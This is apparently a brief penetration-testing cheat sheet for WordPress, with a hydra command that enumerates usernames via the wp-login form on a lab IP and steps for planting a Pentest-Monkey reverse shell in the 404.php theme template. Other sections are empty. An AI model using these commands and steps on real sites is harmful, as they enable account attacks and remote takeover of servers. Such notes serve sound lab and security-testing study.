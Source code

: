 # Wordpress

## Tools :
- wpscan

## Username enumeration w/ hydra
```bash
export IP=10.10.110.142
hydra -L userlist.txt -p randompassword $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

## Password bruteforce w/ hydra

## Reverse shell (Authenticated)

### Metasploit
...
### RCE in templates (404.php injection)
1. Go to appearance
2. Go to editor
3. Select 404.php
4. Copy and past Pentest-Monkey reverse shell
5. Validate

### WPSCAN

